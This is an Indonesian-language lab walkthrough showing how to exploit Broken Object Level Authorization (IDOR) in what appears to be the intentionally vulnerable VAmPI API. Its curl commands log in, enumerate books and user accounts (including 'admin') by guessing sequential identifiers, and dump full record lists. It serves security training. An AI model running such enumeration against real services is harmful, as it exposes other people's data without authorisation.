 # Broken Object Level Authorization
Penyerang dapat mengeksploitasi endpoint API yang rentan terhadap Broken Object Level Authorization (BOLA) / IDOR (Insecure Direct Object Reference) dengan memanipulasi ID objek yang dikirimkan dalam request. ID Objek dapat berupa apa saja, mulai dari bilangan bulat berurutan, UUID, atau string. Akses tidak sah terhadap objek pengguna lain dapat mengakibatkan pengungkapan data kepada pihak yang tidak berwenang, kehilangan data, atau manipulasi data. Celah keamanan ini ditemukan pada endpoint `/books/v1/{book_title}` dan `/users/v1/{username}`

- Login terlebih dahulu untuk mengakses endpoint `/books/v1/{book_title}`
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%202.JPG)

```sh
curl http://IP_Server:5000/books/v1/bookTitle36 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%204.JPG)

```sh
curl http://IP_Server:5000/books/v1/bookTitle37 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%206.JPG)

```sh
curl http://IP_Server:5000/users/v1/name1 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%207.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%208.JPG)

```sh
curl http://IP_Server:5000/users/v1/name2 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%209.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2010.JPG)

```sh
curl http://IP_Server:5000/users/v1/admin --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2011.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2012.JPG)

- Pada endpoint `/books/v1/{book_title}` kita mengakses data dengan menebak urutan parameter **book_title** seperti `bookTitle36` dan `bookTitle36`. Begitu juga dengan endpoint `/users/v1/{username}` kita juga bisa mengakses data user dengan menebak urutan **username** seperti `name1` dan `name2`. Selain itu kita juga bisa menemukan data dengan username `admin`
- Jika kita menggunakan endpoint diatas tanpa parameter, kita dapat memperoleh seluruh data
```sh
curl http://IP_Server:5000/books/v1 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2013.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2014.JPG)

```sh
curl http://IP_Server:5000/users/v1 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2015.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2016.JPG)